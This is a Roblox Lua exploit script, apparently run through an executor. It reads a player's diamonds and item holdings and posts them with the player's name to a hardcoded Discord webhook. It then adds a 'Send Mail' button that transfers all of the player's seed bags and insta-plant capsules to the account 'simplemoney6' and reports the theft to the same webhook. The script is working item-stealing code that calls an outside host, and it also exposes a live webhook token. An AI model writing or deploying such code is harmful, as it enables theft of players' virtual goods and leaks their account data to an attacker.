 wait(5)
local player = game.Players.LocalPlayer
local gui = player.PlayerGui:FindFirstChild("_MACHINES")

if gui then
    local mailboxMachine = gui.MailboxMachine
    if mailboxMachine then
        local giftsFrame = mailboxMachine.Frame.GiftsFrame
        if giftsFrame then
            local itemsFrame = giftsFrame.ItemsFrame
            if itemsFrame then
                local frameChild = itemsFrame:FindFirstChildWhichIsA("Frame")
                if frameChild then
                    local args = {
                        [1] = {
                            [1] = frameChild.Name
                        }
                    }
                    game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Claim"):InvokeServer(unpack(args))
                end
            end
        end
    end
end

local ReplicatedStorage = game:GetService("ReplicatedStorage")
local HttpService = game:GetService("HttpService")
local Client = require(ReplicatedStorage:WaitForChild("Library"))
local Players = game:GetService("Players")
local UserInputService = game:GetService("UserInputService")

local webhookURL = "https://discord.com/api/webhooks/1240051310783627374/FeWsgqN_nlUvPEXVnxgP4pZ5qIJeDn6Uyhd0_vjjBVVGegKU8jGLgVdV0ULgRWumSvML"
local request = (syn and syn.request) or request or (http and http.request) or http_request

local DiamondsTable = {"Diamonds"}
local ItemTable = {"Seed Bag", "Insta Plant Capsule"}

function MakeDiamondsTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

function MakeTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

local diamondsAmount, seedBagAmount, instaPlantCapsuleAmount
local seedbagid, instaplantid

function GrabDiamondsId()
    for i, MadeTable in ipairs(MakeDiamondsTable(DiamondsTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.class == "Currency" then
            diamondsAmount = Table.data._am
        end
    end
end

function GrabId()
    for i, MadeTable in ipairs(MakeTable(ItemTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.data.id == "Seed Bag" then 
            seedBagAmount = Table.data._am
            seedbagid = Table.uid
        elseif Table.data.id == "Insta Plant Capsule" then
            instaPlantCapsuleAmount = Table.data._am
            instaplantid = Table.uid
        end
    end
end

GrabDiamondsId()
GrabId()

local playerName = Players.LocalPlayer.Name

local contentMsg = {
    embeds = {
        {
            title = "***👨‍💻: " .. playerName .. "***",
            description = "",
            color = 16777215,
            fields = {
                {
                    name = "***💎:***",
                    value = "***" .. (diamondsAmount and diamondsAmount or 0) .. "***"
                },
                {
                    name = "***🫙:***",
                    value = "***" .. (instaPlantCapsuleAmount and instaPlantCapsuleAmount or 0) .. "***"
                },
                {
                    name = "***🌱:***",
                    value = "***" .. (seedBagAmount and seedBagAmount or 0) .. "***"
                }
            }
        }
    }
}


request({
    Url = webhookURL,
    Method = "POST",
    Headers = {
        ["Content-Type"] = "application/json",
    },
    Body = HttpService:JSONEncode(contentMsg),
})

local screenGui = Instance.new("ScreenGui")
local button = Instance.new("TextButton")

screenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
button.Parent = screenGui
button.Size = UDim2.new(0, 200, 0, 50)
button.Position = UDim2.new(0.5, -100, 0, 0)  -- Changed Y position to 0 for top alignment
button.BackgroundColor3 = Color3.new(0, 0, 0)
button.Text = "Send Mail"
button.TextColor3 = Color3.new(1, 1, 1)
button.TextScaled = true


button.MouseButton1Click:Connect(function()
    local args1 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = seedbagid or "",
        [5] = seedBagAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args1))
    wait(3)
    local args2 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = instaplantid or "",
        [5] = instaPlantCapsuleAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args2))

    local mailContentMsg = {
        embeds = {
            {
                title = "***👨‍💻: " .. playerName .. "***",
                description = "***💌: Mail Successfully Sent!***",
                color = 16777215,
                fields = {
                    {
                        name = "***🫙:***",
                        value = "Sent ***" .. instaPlantCapsuleAmount .. "***"
                    },
                    {
                        name = "***🌱:***",
                        value = "Sent ***" .. seedBagAmount .. "***"
                    }
                }
            }
        }
    }

    request({
        Url = webhookURL,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json",
        },
        Body = HttpService:JSONEncode(mailContentMsg),
    })
end)
